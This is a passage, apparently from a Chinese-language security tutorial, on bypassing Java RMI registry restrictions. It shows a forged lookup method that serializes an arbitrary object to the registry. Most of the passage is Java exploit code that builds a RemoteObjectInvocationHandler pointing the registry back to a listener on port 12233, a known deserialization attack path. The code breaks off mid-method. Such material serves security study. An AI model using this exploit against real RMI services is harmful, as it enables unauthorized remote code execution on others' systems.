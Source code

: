 ![image-20240224172928024](./../.gitbook/assets/image-20240224172928024.png)

当然`list`、`lookup`这些客户端正常使用的功能就没有这个限制

![image-20240224173053044](./../.gitbook/assets/image-20240224173053044.png)

但是如果客户端直接调用`lookup`，只能传递字符串。

我们可以直接仿造`RegistryImpl_Stub`实现一个`lookup`方法，使其接收`Object`对象，并把`opnum`改成`lookup`对应的2

```java
public class RMIClient {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        ObjID id = new ObjID(new Random().nextInt());
        TCPEndpoint te = new TCPEndpoint("127.0.0.1", 12233);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        lookup(registry, obj);
    }

    public static Remote lookup(Registry registry, Object obj)
            throws Exception {
        RemoteRef ref = (RemoteRef) getFieldValue(registry, "ref");
        long interfaceHash = Long.valueOf(String.valueOf(getFieldValue(registry, "interfaceHash")));

        java.rmi.server.Operation[] operations = (Operation[]) getFieldValue(registry, "operations");
        java.rmi.server.RemoteCall call = ref.newCall((java.rmi.server.RemoteObject) registry, operations, 2, interfaceHash);
        try {
            try {
                java.io.ObjectOutput out = call.getOutputStream();
                out.writeObject(obj);
            } catch (java.io.IOException e) {
                throw new java.rmi.MarshalException("error marshalling arguments", e);
            }
            ref.invoke(call);
            return null;
        } catch (RuntimeException | RemoteException | NotBoundException e) {
            if(e instanceof RemoteException| e instanceof ClassCastException){
                return null;
```